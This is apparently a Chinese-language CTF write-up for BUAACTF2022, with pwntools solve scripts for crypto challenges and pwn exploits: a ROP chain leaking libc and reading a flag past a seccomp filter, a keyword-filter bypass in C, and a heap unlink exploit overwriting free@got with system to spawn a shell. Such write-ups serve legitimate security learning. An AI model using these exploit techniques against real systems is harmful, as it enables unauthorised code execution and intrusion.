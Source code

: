 ---
title: "BUAACTF2022 WP"
date: 2022-03-28T13:53:31+08:00
draft: false
---

* crypto

** ez game
求逆，哈希碰撞
#+begin_src python
from pwn import *
from gmpy2 import invert

p = remote("101.43.185.64", "43089")
# p = remote("49.232.31.80", "8088")
p.recvuntil("y)\n")
p.sendline('1')
sleep(1)
for i in range(300):
    p.recvuntil("m): (")
    a = int(p.recvuntil(", ", drop=True))
    b = int(p.recvuntil(")", drop=True))
    # p.interactive()
    p.sendline(str(invert(a, b)))
    log.success(str(i))
p.interactive()
#+end_src

#+begin_src python
from pwn import *
x = "d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70".decode("hex")

y = "d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70".decode("hex")

# print(hashlib.md5(x).hexdigest())
# print(hashlib.md5(y).hexdigest())
p = remote("49.232.31.80", "8088")
p.recvuntil("y)\n")
p.sendline('2')
sleep(2)

p.recvuntil("x:\n")
p.sendline(x)

sleep(2)
p.recvuntil("y:\n")
p.sendline(y)
p.interactive()
#+end_src
** pow
md5爆破
#+begin_src python
from pwn import *
from pwnlib.util.iters import mbruteforce
import itertools
import base64
# sh = remote("chuj.top", )
# sh.recvuntil(') == ')
# hash_code = sh.recvuntil('\n', drop=True).decode().strip()
hash_code = '9bdd40f1971ae4ae367df318eba20f20'
app = 'DNtjSOd3PV2JZqXj'
log.success('hash_code={},'.format(hash_code))
charset = string.printable
proof = mbruteforce(lambda x: hashlib.md5((x+app).encode()).hexdigest() ==
hash_code, charset, 4, method='fixed')
print(proof)
# sh.sendlineafter('????> ', proof)
# sh.interactive()
#+end_src

* pwn

** math
最后除法触发signal就给shell。但除数过滤了0，可以用INT_MIN / -1触发整数上溢。
#+begin_src python
from pwn import *
p = process("math")
p = remote("10.212.27.23", "12138")
for i in range(20):
    p.recvuntil("A = :")
    a = int(p.recvline())
    p.recvuntil("B = :")
    b = int(p.recvline())
    p.recvuntil("a ")
    op = p.recv(1)
    p.recvuntil("b:")
    if(op == "+"):
        p.sendline(str(a+b))
    elif(op == "-"):
        p.sendline(str(a-b))
    elif(op == "*"):
        p.sendline(str(a*b))
p.interactive()
#+end_src
** oj & oj_revenge
第一个题直接fopen就能拿到flag。第二个也只对关键字 =flag= , =open= 之类的做了简单过滤，没有禁用。用宏绕过就行。
#+begin_src c
#include <stdio.h>
#define x f##o##p##e##n
int main()
{
char buf[233];
char ff[10] = "./fla";
ff[5] = 'g';
FILE *fd = x(ff, "r");
fgets(buf, 233, fd);
printf(buf);
}
#+end_src
** 拿到shell是一件很嘻哈的事
[[/img/2022-03-28_shell.png][ida]]
ida看一眼，发现是orw+rop。
#+begin_src shell
ubuntu@pwn:~/bridge/buaactf2022/pwn/shell$ seccomp-tools dump ./shell
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x02 0xc000003e  if (A != ARCH_X86_64) goto 0004
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0005
 0004: 0x06 0x00 0x00 0x00000000  return KILL
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
ubuntu@pwn:~/bridge/buaactf2022/pwn/shell$
#+end_src
seccomp-tools看到只禁用了execve。那就先泄漏puts的got得到libc基地址，把 "./flag" 字符串写入data段，orw拿到flag。
#+begin_src python
from pwn import *
p = process("./shell")
# p = remote("10.212.27.23", "4396")
libc = ELF("./libc-2.27.so")
elf = ELF("./shell")
p.recvuntil(":)\n")
rdiret = 0x0000000000400863
# leak
payload1 = 'a'*(0x20+8)+p64(rdiret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
p.sendline(payload1)
p.recvuntil("guess\n")
putsaddr = u64(p.recvuntil("\x7f").ljust(8, '\x00'))
libcbase = putsaddr - libc.sym['puts']
log.success("libc base: " + hex(libcbase))

o = libc.sym['open']+libcbase
r = elf.plt['read']
w = elf.plt['puts']
rsir15ret = 0x400861
rdxrsiret = 0x00130539+libcbase
rdxret = 0x01b96+libcbase
# write file name
payload2 ='a'*(0x20+8)+p64(rdiret)+p64(0)+p64(rdxrsiret)+p64(16)+p64(elf.sym['__data_start'])+\
    p64(r)+p64(elf.sym['main'])
p.recvuntil(":)\n")
p.sendline(payload2)
p.recvuntil("guess\n")
p.sendline("./flag\x00")
# orw
pushraxret = 0x001b4d0+libcbase
payload3 = 'a'*0x28+p64(rdiret)+p64(elf.sym['__data_start'])+p64(rdxrsiret)+p64(0)+p64(0)+p64(o)+p64(elf.sym['main'])
p.recvuntil(":)\n")
p.sendline(payload3)
payload3 = 'a'*0x28+p64(rdiret)+p64(0x3)+p64(rdxrsiret)+p64(30)+p64(elf.sym['__data_start'])+p64(r)
payload3 += p64(rdiret)+p64(elf.sym['__data_start'])+p64(w)
p.recvuntil(":)\n")
p.sendline(payload3)
p.interactive()
#+end_src
** dream
libc2.34下的堆题。
[[/img/2022-03-28_new-dream.png][new-dream]]
new_dream是read后没有写入'\x00'，有信息泄漏。INDEX没有限制上限，可以无限创建新dream；但其实bss里只能放下8个地址，再往后就会覆盖SIZES。可以利用这点来修改SIZES，使得在edit_dream时可以覆盖下一堆块。
[[/img/2022-03-28_bss.png][dream-bss]]
[[/img/2022-03-28_edit-dream.png][edit-dream]]
edit_dream有off-by-null。

那么就可以用edit时的off-by-null让下一堆块认为上一块not in use，触发unlink后可以任意读写。
[[/img/2022-03-28_unlink.jpeg][unlink]]
通过读HEAP_PTRS内容拿到堆地址，再计算堆内偏移，读到dream1中保存的unsorted bin addr，leak libc base.
#+begin_src python
# leak
edit_dream(1, p64(0x4040a0))
read_dream(-2)
heap_addr = u64(p.recvuntil("Do", drop=True).ljust(8, '\x00'))
log.success("dream 0 addr: "+ hex(heap_addr))
edit_dream(1, p64(heap_addr-0x10+0x90+0x20))
read_dream(-2)
unsorted_addr = u64(p.recvuntil("Do", drop=True).ljust(8, "\x00"))
libc_base = unsorted_addr - 0x219cc0
log.success("libc base: "+hex(libc_base))
#+end_src
注意libc2.34中取消了free_hook和malloc_hook，不能通过重写hook来执行system。好在这题只开了partial RELRO，可以写got。往free@got写入system，delete_dream触发拿到shell。

完整exp：
#+begin_src python
from pwn import *
p = process("./dream")
p = remote("10.212.27.23", "8012")
libc = ELF("./libc.so.6")
libc = ELF("/home/ubuntu/glibc-all-in-one/libs/2.34-0ubuntu3_amd64/libc.so.6")
elf = ELF("./dream")
def new_dream(length, content):
    p.sendlineafter("> ", "1")
    p.sendlineafter("How long is your dream?\n", str(length))
    p.sendlineafter(" contents of this dream?\n", str(content))

def read_dream(ind):
    p.sendlineafter("> ", "2")
    p.sendlineafter("Which dream would you like to read?\n", str(ind))

def edit_dream(ind, content):
    p.sendlineafter("> ", "3")
    p.sendlineafter("Which dream would you like to change?\n", str(ind))
    p.sendline(str(content))

def delete_dream(ind):
    p.sendlineafter("> ", "4")
    p.sendlineafter("Which dream would you like to delete?\n", str(ind))

def exp():
    heap_ptr = 0x4040a0
    ptr = heap_ptr + 8*1
    payload1 = p64(0)+p64(0x90)+p64(ptr-0x18)+p64(ptr-0x10)
    payload1 += 'a'*(0x98-len(payload1)-0x8)
    payload1 += p64(0x90)
    new_dream(0x80, '') # 0
    new_dream(0x98, '') # 1
    new_dream(0x4f0, '') # 2
    new_dream(0x7, '/bin/s') # 3
    new_dream(0x10, '/bin/sh\x00') # 4
    # unlink
    edit_dream(1, payload1)
    delete_dream(2)

    # leak
    edit_dream(1, p64(0x4040a0))
    read_dream(-2)
    heap_addr = u64(p.recvuntil("Do", drop=True).ljust(8, '\x00'))
    log.success("dream 0 addr: "+ hex(heap_addr))
    edit_dream(1, p64(heap_addr-0x10+0x90+0x20))
    read_dream(-2)
    unsorted_addr = u64(p.recvuntil("Do", drop=True).ljust(8, "\x00"))
    libc_base = unsorted_addr - 0x219cc0
    log.success("libc base: "+hex(libc_base))

    # write free got
    dream4_addr = heap_addr + 0x90+0xa0+0x500+0x20
    free_hook = libc.sym['__malloc_initialize_hook']+libc_base
    # free_hook = elf.got['free']
    sys_addr = libc.sym['system']+libc_base
    one_gadget = 0xeacf2+ libc_base
    edit_dream(1, p64(0)+p64(0)+p64(free_hook)+p64(0)+p64(0)+p64(elf.got['free'])+p64(dream4_addr))
    # p.interactive()
    edit_dream(3, p64(sys_addr)[:7])
    # p.interactive()
    delete_dream(4)
    p.interactive()



if __name__ == "__main__":
    exp()
#+end_src
* rev
** checkin
简单的置换+异或。反向做一下就出来了。注意输入的时候scanf的格式，和小端序。
* misc
只做了签到和问卷，太丢人了。。。
